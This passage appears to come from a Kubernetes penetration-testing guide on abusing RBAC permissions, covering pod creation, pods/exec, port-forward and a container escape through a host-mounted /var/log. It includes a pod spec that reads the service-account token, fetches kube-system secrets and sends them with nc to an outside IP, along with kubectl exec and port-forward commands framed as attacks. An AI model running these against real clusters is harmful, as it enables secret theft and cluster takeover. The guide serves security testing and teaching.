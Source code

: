 ```yaml
      automountServiceAccountToken: true
      hostNetwork: true
      containers:
      - name: alpine
        image: alpine
        command: ["/bin/sh"]
        args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
```

In line 6 you can find the object “spec” and children objects such as “**template**” in line 10. These objects hold the configuration for the task we wish to accomplish. Another thing to notice is the "**serviceAccountName**" in line 15 and the “**containers**” object in line 18. This is the part that relates to creating our malicious container.

Kubernetes API documentation indicates that the “**PodTemplateSpec**” endpoint has the option to create containers. And, as you can see: **deployment,** **daemonsets, statefulsets, replicationcontrollers, replicasets, jobs and cronjobs can all be used to create pods**:

![](https://www.cyberark.com/wp-content/uploads/2019/08/Kube-Pentest-Fig-8.png)

**So, the privilege to create or update tasks can also be abused for privilege escalation in the cluster.**

### **Pods Exec**

**`pods/exec`** is a resource in kubernetes used for **running commands in a shell inside a pod**. This privilege is meant for administrators who want to **access containers and run commands**. It’s just like creating a SSH session for the container.

If we have this privilege, we actually get the ability **to take control of all the pods**. In order to do that, we needs to use the following command:

```bash
kubectl exec -it <POD_NAME> -n <NAMESPACE> -- sh
```

Note that as you can get inside any pod, you can abuse other pods token just like in **Pod Creation exploitation** to try to escalate privileges.

### port-forward

This permission allows to **forward one local port to one port in the specified pod**. This is meant to be able to debug applications running inside a pod easily, but an attacker might abuse it to get access to interesting (like DBs) or vulnerable applications (webs?) inside a pod:

```
kubectl port-forward pod/mypod 5000:5000
```

### **Hosts Writable /var/log/ Escape**

As [**indicated in this research**](https://jackleadford.github.io/containers/2020/03/06/pvpost.html), if you can access or create a pod with the **hosts `/var/log/` directory mounted** on it, you can **escape from the container**.\
This is basically because the when the **Kube-API tries to get the logs** of a container (using `kubectl logs <pod>`), it **requests the `0.log`** file of the pod using the `/logs/` endpoint of the **Kubelet** service.\
The Kubelet service exposes the `/logs/` endpoint which is just basically **exposing the `/var/log` filesystem of the container**.

